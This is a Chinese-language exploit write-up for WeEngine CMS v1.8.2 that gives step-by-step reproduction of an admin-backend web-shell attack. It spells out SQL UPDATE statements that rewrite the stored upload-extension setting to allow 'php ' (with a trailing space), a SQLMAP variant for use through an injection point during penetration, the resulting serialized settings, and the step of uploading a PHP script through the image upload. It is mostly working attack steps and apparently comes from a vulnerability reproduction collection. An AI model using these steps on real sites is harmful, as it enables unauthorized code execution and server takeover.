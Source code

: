 微擎cms 后台getshell
====================

一、漏洞简介
------------

二、漏洞影响
------------

v1.8.2（201812130002）

三、复现过程
------------

站点-附件设置-支持文件后缀

![](./resource/微擎cmsv1.8.2后台getshell/media/rId24.png)

在安装完成的时候,数据库里面并没有写入支持文件后缀的值,需要我们进行添加需要的脚本格式php等等

![](./resource/微擎cmsv1.8.2后台getshell/media/rId25.png)

直接写上支持的后缀为php是会带入到数据库的,提交完毕以后数据库会显示可上传的值

    a:3:{s:16:"attachment_limit";  
    i:0;s:5:"image";a:5:{s:5:"thumb";i:0;s:5:  
    "width";i:800;s:10:"extentions";  
    a:4:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;s:3:"png";}  
    s:5:"limit";i:5000;s:14:"zip_percentage";s:3:"100";}  
    s:5:"audio";a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}}

### 漏洞利用

写入任意字符

![](./resource/微擎cmsv1.8.2后台getshell/media/rId27.png)

    a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
    a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
    a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
    s:3:"png";i:4;s:3:"aaa";}s:5:"limit";i:5000;
    s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
    a:2:{s:10:"extentions";  a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}}

站点-常用工具-数据库-执行SQL语句替换之前插入的值 (记得打开调试模式)

    UPDATE ims_core_settings SET value = replace(value, 'aaa', 'php ')

注意php后有一个空格

or 如果在渗透过程中有SQL注入点的情况下
有用户权限能够上传,尝试直接在SQLMAP执行语句

    UPDATE `ims_core_settings` SET
    `key` = 'upload',
    `value` = 'a:2:{s:5:\"image\";a:4:{s:5:\"thumb\";i:0;  
    s:5:\"width\";i:800;s:10:\"extentions\";  
    a:5:{i:0;s:3:\"gif\";i:1;s:3:\"jpg\";i:2;  
    s:4:\"jpeg\";i:3; s:3:\"png\";i:4;s:3:\"php \";}  
    s:5:\"limit\";i:5000;}s:5:\"audio\";  
    a:2:{s:10:\"extentions\";a:1:{i:0;s:3:\"mp3\";}s:5:\"limit\";i:5000;}}'
    WHERE `key` = 'upload' AND `key` = 'upload' COLLATE utf8mb4_bin;

![](./resource/微擎cmsv1.8.2后台getshell/media/rId28.png)

    a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
    a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
    a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
    s:3:"png";i:4;s:3:"php ";}s:5:"limit";i:5000;  
    s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
    a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}}

执行完毕-系统-更新缓存

![](./resource/微擎cmsv1.8.2后台getshell/media/rId29.png)

### 上传php文件

以上全部操作完毕,直接在可以上传图片的地方进行上传脚本

![](./resource/微擎cmsv1.8.2后台getshell/media/rId31.png)

四、参考链接
------------

> <https://www.vulnbug.com/Exploit/getshell-vulnerability-in-microcomputer-cms-background.html>
